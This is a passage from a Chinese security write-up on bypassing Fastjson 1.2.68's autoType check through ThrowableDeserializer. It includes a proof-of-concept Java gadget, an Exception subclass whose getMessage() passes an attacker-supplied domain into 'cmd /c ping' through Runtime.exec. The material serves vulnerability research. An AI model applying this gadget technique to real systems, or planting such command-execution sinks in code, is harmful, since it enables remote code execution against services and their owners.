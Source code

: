 
ThrowableDeserializer是Throwable用来反序列化异常类的，当没有命中之前程序给定的类型时会进入createJavaBeanDeserializer()，其实就是JavaBeanDeserializer。



先看ThrowableDeserializer中

[![image.png](resource/Fastjson%201.2.68%20bypass%20autotype/media/20200616111164.png)](https://y4er.com/img/uploads/20200616111164.png)



根据第二个`@type`获取类，并且传入指定期望类进行加载。因此可以反序列化继承Throwable的异常类，借助setter、getter等方法的自动调用，来挖掘gadget。浅蓝师傅给了一个gadget

```java
package org.chabug.fastjson.exploit;

import java.io.IOException;

public class ExecException extends Exception {

    private String domain;

    public ExecException() {
        super();
    }

    public String getDomain() {
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public String getMessage() {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});
        } catch (IOException e) {
            return e.getMessage();
        }

        return super.getMessage();
    }
}
```
